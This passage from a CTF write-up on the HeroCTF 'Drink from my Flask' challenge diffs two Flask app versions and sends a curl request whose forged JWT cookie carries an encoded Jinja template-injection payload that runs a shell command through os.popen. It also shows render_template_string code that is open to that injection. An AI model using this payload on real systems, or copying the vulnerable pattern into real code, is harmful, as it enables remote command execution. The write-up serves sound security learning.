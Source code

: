 As you can see, **the development one is running on port 5000**.

```shell
(remote) www-data@flask:/var/www/app$ curl http://localhost:5000/
<h2>Invalid operation</h2><br><p>Example: /?op=substract&n1=5&n2=2</p>
```

**Let's compare the production one and the development one:**
```diff
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/System/Drink-from-my-Flask#2)-[2023.05.13|23:02:30(HKT)]
└> diff dev_app.py prod_app.py 
24c24
<             if len(value) > 50:
---
>             if len(value) > 35: # 40 would be enough, but you never know, hein poda
29c29
<         if len(request.path) > 50:
---
>         if len(request.path) > 35:
117c117
<     return render_template_string("Sorry but you can't access this page, you're a '{role}'", role=role), 403
---
>     return render_template_string("Sorry but you can't access this page, you're a '{}'".format(role)), 403
122c122,123
<     return render_template_string("<h2>{page} was not found</h2><br><p>Only routes / and /adminPage are available</p>", page=request.path), 404
---
>     html = "<h2>{page} was not found</h2><br><p>Only routes / and /adminPage are available</p>".format(page=request.path)
>     return render_template_string(html), 404
127c128
< app.run(debug=True, use_debugger=True, use_reloader=False, host="0.0.0.0", port=parser.parse_args().port)
\ No newline at end of file
---
> app.run(host="0.0.0.0", port=parser.parse_args().port, debug=False, use_reloader=False)
\ No newline at end of file
```

**In the production one's SSTI exploit, it's fixed on the `/adminPage`, as the `role` will just render `{role}`.**
```shell
(remote) www-data@flask:/var/www/app$ curl -i -s -k -X $'GET' \
>     -H $'Host: localhost:5000' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
>     -b $'token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoie3sgc2VsZi5fVGVtcGxhdGVSZWZlcmVuY2VfX2NvbnRleHQuY3ljbGVyLl9faW5pdF9fLl9fZ2xvYmFsc19fLm9zLnBvcGVuKCdpZCcpLnJlYWQoKSB9fSJ9.Ex_wow2iHjH97TNLAr0V-iO25-bnWc-prB3Bkw-KMDw' \
>     $'http://localhost:5000/adminPage'
HTTP/1.1 403 FORBIDDEN
Server: Werkzeug/2.3.4 Python/3.10.6
Date: Sat, 13 May 2023 15:09:54 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 55
Connection: close

Sorry but you can't access this page, you're a '{role}'
```

